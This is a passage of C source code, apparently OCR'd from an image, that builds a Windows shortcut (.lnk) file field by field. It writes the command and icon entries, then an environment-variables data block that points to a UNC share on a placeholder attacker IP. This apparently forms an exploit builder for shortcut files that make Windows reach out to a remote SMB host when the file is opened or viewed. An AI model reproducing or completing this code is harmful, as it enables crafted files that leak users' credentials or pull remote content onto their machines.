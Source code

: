 ```c
        printf("Failed to write cmd length: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    int wideCmdBufSize = MultiByteToWideChar(CP_ACP, 0, cmdLineBuffer, -1, NULL, 0);
    WCHAR* wideCmd = (WCHAR*)malloc(wideCmdBufSize * sizeof(WCHAR));
    if (!wideCmd) {
        printf("Memory allocation failed\n");
        CloseHandle(hFile);
        return 1;
    }

    MultiByteToWideChar(CP_ACP, 0, cmdLineBuffer, -1, wideCmd, wideCmdBufSize);

    if (!WriteFile(hFile, wideCmd, cmdArgLen * sizeof(WCHAR), &bytesWritten, NULL)) {
        printf("Failed to write cmd: %lu\n", GetLastError());
        free(wideCmd);
        CloseHandle(hFile);
        return 1;
    }
    free(wideCmd);

    const char* iconPath = "path\\to\\your\\icon";
    WORD iconLen = (WORD)strlen(iconPath);
    if (!WriteFile(hFile, &iconLen, sizeof(WORD), &bytesWritten, NULL)) {
        printf("Failed to write icon length: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    int wideIconBufSize = MultiByteToWideChar(CP_ACP, 0, iconPath, -1, NULL, 0);
    WCHAR* wideIcon = (WCHAR*)malloc(wideIconBufSize * sizeof(WCHAR));
    if (!wideIcon) {
        printf("Memory allocation failed\n");
        CloseHandle(hFile);
        return 1;
    }

    MultiByteToWideChar(CP_ACP, 0, iconPath, -1, wideIcon, wideIconBufSize);

    if (!WriteFile(hFile, wideIcon, iconLen * sizeof(WCHAR), &bytesWritten, NULL)) {
        printf("Failed to write icon path: %lu\n", GetLastError());
        free(wideIcon);
        CloseHandle(hFile);
        return 1;
    }
    free(wideIcon);

    const char* envUNC = "\\\\<IP address here>\\c";

    DWORD envBlockSize = 0x00000314;
    DWORD envSignature = ENVIRONMENTAL_VARIABLES_DATABLOCK_SIGNATURE;

    printf("Creating Environment Variables Data Block:\n");
    printf("  Using fixed block size: 0x%08X (%lu bytes)\n", envBlockSize, envBlockSize);

    if (!WriteFile(hFile, &envBlockSize, sizeof(DWORD), &bytesWritten, NULL)) {
        printf("Failed to write env block size: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }
    printf("  Write block size: %lu bytes written\n", bytesWritten);
```